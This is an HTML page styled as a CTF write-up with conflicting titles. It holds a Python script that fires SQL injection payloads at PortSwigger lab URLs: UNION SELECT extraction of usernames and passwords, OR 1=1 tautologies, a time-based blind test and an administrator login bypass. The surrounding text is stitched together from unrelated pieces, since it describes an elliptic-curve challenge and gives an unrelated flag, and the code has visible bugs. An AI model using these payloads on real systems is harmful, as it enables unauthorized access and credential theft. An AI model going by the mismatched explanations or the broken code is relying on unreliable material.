  <title>ctfzone2024---Shes the Real one  Writeup </title>
 

<!DOCTYPE html>
<html>
 
<body>
    <h1>portswigger---SQL injection Writeup </h1>

    <h2>Challenge Description</h2>
    <p>  this is  python code and works about solutions for https://portswigger.net/
sqli lab
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol> 
        <li>this is a  elliptic curve discrete that should get p ,q,e with reverse saga 
and solve it with bruteforce or other method
get p , q e by urself
<pre>
import requests
import time
from bs4 import BeautifulSoup
def solve(url):
    message=bypass_sqli_with_xml(url)
    message+="\n"+detect_sqli(url)
    message+="\n"+detect_blind_sqli(url)
    message+="\n"+run_sqli_attack(url)
    message=="\n"+login_as_admin(url)
    return message
def bypass_sqli_with_xml(url):
    """Attempt to bypass SQL injection filters via XML encoding"""
    headers = {"Content-Type": "application/xml"}
    xml_payloads = [
        "<storeId>1+1</storeId>",
        "<storeId>1 UNION SELECT NULL</storeId>",
        "<storeId>1 UNION SELECT username, password FROM users</storeId>"
    ]
    
    for payload in xml_payloads:
        try:
            response = requests.post(url, data=f"<root>{payload}</root>", headers=headers, timeout=5)
            if "admin" in response.text.lower():
                return f"[+] SQL Injection successful with payload: {payload}\nExtracted Data: {response.text[:500]}"
        except requests.RequestException:
            continue
    return "[-] No SQL Injection detected via XML encoding."
def detect_sqli(url):
    """Check if the URL is vulnerable to basic SQL Injection"""
    test_payloads = [
        "'",                   # Syntax error test
        "' OR '1'='1' --",     # Always-true test
        '" OR "1"="1" --',     # Double-quote version
        "' AND 1=2 --",        # Always-false test
        "' UNION SELECT null --",  # UNION-based test
    ]
    
    for payload in test_payloads:
        try:
            full_url = f"{url}{payload}"
            response = requests.get(full_url, timeout=5)
            
            # Check for SQL error messages
            sql_errors = ["SQL syntax", "mysql_fetch", "ODBC", "SQLite", "PostgreSQL"]
            for error in sql_errors:
                if error.lower() in response.text.lower():
                    return True, f"Vulnerable! Detected SQL error with payload: {payload}"

            # Boolean-based test (1=1 vs. 1=2)
            if "' OR '1'='1' --" in payload and response.status_code == 200:
                false_url = f"{url}' AND '1'='2' --"
                false_response = requests.get(false_url, timeout=5)
                if response.text != false_response.text:
                    return True, "Vulnerable! Boolean-based SQL Injection detected."
        
        except requests.RequestException:
            continue  # Ignore timeouts

    return False, "No immediate SQLi detected, further testing needed."

def detect_blind_sqli(url):
    """Detect Blind SQL Injection using time delay"""
    blind_payload = "'; WAITFOR DELAY '0:0:5' --"
    try:
        start_time = time.time()
        requests.get(f"{url}{blind_payload}", timeout=10)
        elapsed_time = time.time() - start_time

        if elapsed_time > 4:  # If response delay is detected
            return True, "Potential Blind SQL Injection detected (Delayed response observed)."
    except requests.Timeout:
        return True, "Blind SQL Injection detected (Timeout-based delay observed)."
    except requests.RequestException:
        pass  # Ignore network errors

    return False, "No Blind SQL Injection detected."

def run_sqli_attack(url):
    """Perform a full SQL injection attack if detected"""
    payload = "' OR 1=1 --"
    attack_url = f"{url}{payload}"

    try:
        response = requests.get(attack_url, timeout=5)
        return response.text[:1000]  # Limit output for safety
    except Exception as e:
        return f"Error: {str(e)}"


def login_as_admin(url,path="login"):
    """Attempt to log in as administrator using SQL Injection"""
    login_url = f"{url}/{path}"
    data = {
        "username": "administrator' --",
        "password": "anyPassword"
    }
    try:
        response = requests.post(login_url, data=data, timeout=5)
        if "Your username is: administrator" in response.text:
            return "[+] Successfully logged in as administrator!"
        else:
            return "[-] Admin login failed."
    except Exception as e:
        return f"Error: {str(e)}"


</pre>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">CTFZone{m4yb3_5h35_4_c0mpl3x_0n3}
</p>

    <h2>Conclusion</h2>
    <p>this is a medium chanllenge for work on  elliptic curve discrete</p>

</body>
</html>
